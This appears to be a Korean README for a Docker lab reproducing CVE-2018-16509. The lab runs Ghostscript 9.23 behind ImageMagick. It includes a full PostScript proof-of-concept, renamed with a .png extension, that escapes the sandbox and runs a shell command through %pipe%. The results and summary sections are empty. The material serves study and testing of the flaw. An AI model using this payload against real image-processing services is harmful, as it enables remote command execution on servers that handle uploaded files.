 #CVE-2018-16509

**Contributors**

[정기현](https://github.com/jkh011120)

<br>

###요약

CVE-2018-16509는 Postscript 및 PDF를 처리하는 Ghostscirpt를 우회하여 사용자가 의도치 않은 행위를 하게 함.
즉. 파일 확장자로 우회하여 공격 시도가 가능함.


###환경 구성 및 실행

`docker compose up -d` 커맨드를 입력해 테스트 환경 실행 (GhostScript 9.23 및 ImageMagick 7.0.8버전을 사용합니다)



### poc.ps -> poc.png
Postscript로 코드를 만든 후 확장자 명을 png로 만듦.

```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops
```

###결과

<br>
###정리

